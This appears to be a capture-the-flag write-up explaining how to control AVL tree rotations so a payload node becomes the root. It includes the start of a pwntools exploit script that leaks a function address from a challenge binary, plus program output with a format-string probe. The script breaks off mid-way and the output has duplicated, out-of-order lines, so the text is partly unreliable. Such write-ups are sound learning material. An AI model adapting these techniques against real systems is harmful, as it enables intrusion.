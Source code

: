 We see that the above picture has 2 and 1 when taking only left subtrees, and 30, 40, and 50 when only taking the right subtrees, just as what was being output by the binary. Nice!

So now, our final challenge is to insert four nodes such that the node with our payload that has value 0x19=25 ends up at the root.

The tree initially before any of our custom nodes are inserted looks like the following:

![AVL tree after insertion, 1](/assets/images/screenshots/accounting_accident_avl_3.png)

For 25 to be the root, intuition tells us that we need to make the left part of the tree heavier and eventually force node 25 to bubble up. The way we'll do this, however, is not so intuitive. We first want to force 25 to make a rotation upwards. This can be done by giving it more children. We insert nodes with values 26 and 27:

![AVL tree after insertion, 2](/assets/images/screenshots/accounting_accident_avl_4.png)

"WHATTT?!", I hear you say. Did we just make things worse, since node 25 is in an even lower position now?

This is the unintuitive part, because what we were really doing is to give some nodes to the right subtree of 20. Now, we insert node 21, which forces the node at 20 to undergo a rotation:

![AVL tree after insertion, 3](/assets/images/screenshots/accounting_accident_avl_5.png)


Now we have node 25 at a rather sweet spot. Finally, let's cause a rotation at 30 by causing one of its child to increase in height. We can grow the height of the subtree rooted at 20 by either adding something less than 10, or something between 21 or 25. Let's go with adding 22:

![AVL tree after insertion, 4](/assets/images/screenshots/accounting_accident_avl_6.png)

We did it!

### Full Exploit
The full exploit script is given below:

{% highlight C linenos %}
{% raw %}
#!/usr/bin/env python3
from pwn import *

elf = ELF("./accounting")

context.binary = elf
context.terminal = ['kitty', '-e', 'sh', '-c']

if args.REMOTE:
    conn = remote("chal.uiuc.tf", 2001)
else:
    conn = process([elf.path])

def main():
    # Note that each of the recv steps can take a while to run,
    # because of the fancy printing. It is not frozen!
    print(conn.recvuntil("{"))
    leak = conn.recvuntil("}")[:-1]

    # Leak print_flag address
    flag_addr = int(leak, 16)
    print("print_flag address: ", hex(flag_addr))

    # Overflow exploit

[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {0x8048878}
[NookAccounting]: Added "Apples" with cost of 10 bells to accounting spreadsheet.
[NookAccounting]: Added "Fancy Seashells" with cost of 20 bells to accounting spreadsheet.
[NookAccounting]: Added "Tom Nook Shirts" with cost of 30 bells to accounting spreadsheet.
[NookAccounting]: Added "Airplane Ticket" with cost of 40 bells to accounting spreadsheet.
[NookAccounting]: Added "ATM Repairs" with cost of 50 bells to accounting spreadsheet.
[Isabelle]: Oh no! I cant seem to find what this item is, but it cost 25 bells, what is it?
[Isabelle]: Ohmygosh! Thank you for remembering! Now I can get back to work!
[NookAccounting]: Added "%x %x %x AAAAAA" with cost of 25 bells to accounting spreadsheet.
[Isabelle]: Ohmyheck! I dont know how much "Shrub Trimming" costs. Can you tell me?
[NookAccounting]: Added "Shrub Trimming" with cost of 1 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Raymond Hush $$" costs. Can you tell me?
[NookAccounting]: Added "Raymond Hush $$" with cost of -1 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Town Hall Food" costs. Can you tell me?
[NookAccounting]: Added "Town Hall Food" with cost of 0 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "New Wall Art" costs. Can you tell me?
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x80487a6
[NookAccounting]: Added "New Wall Art" with cost of 22 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x8048878